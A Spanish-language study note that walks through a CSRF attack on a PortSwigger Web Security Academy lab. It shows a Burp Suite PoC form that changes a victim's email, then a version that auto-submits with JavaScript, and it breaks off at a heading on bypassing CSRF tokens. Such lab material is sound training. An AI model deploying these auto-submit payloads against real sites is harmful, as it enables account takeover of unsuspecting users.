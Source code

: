 ### CSRF AUTO SUBMIT FORM

La siguiente funcionalidad de cambio de contraseña comple los requisitos para CSRF:

![[Pasted image 20230207145855.png]]

1. Se tiene una accion (Cambio de contraseña)
2. Manejo de sesiones por cookies, no se evidencia ninguna proteccion (anti-CSRF token)
3. Los parametros necesarios son claros y especificos (no hay valores adivinables)

vamos a generar una PoC cpon burpsuite professional:

![[Pasted image 20230207150515.png]]

Esto nos genera el siguiente payload:

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://0a20004c03c388e2c49fd3fe008d00c9.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="hacker&#64;hack&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

ahora para que este exploit se active automaticamente coloamos el siguiente codigo JS:

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://0a20004c03c388e2c49fd3fe008d00c9.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="hacker&#64;hack&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
        document.forms[0].submit();
   </script>
  </body>
</html>
```

podemos automatizar esto seleccionando esta opcion:

![[Pasted image 20230207205258.png]]

### BYPASS CSRF TOKEN VALIDATION

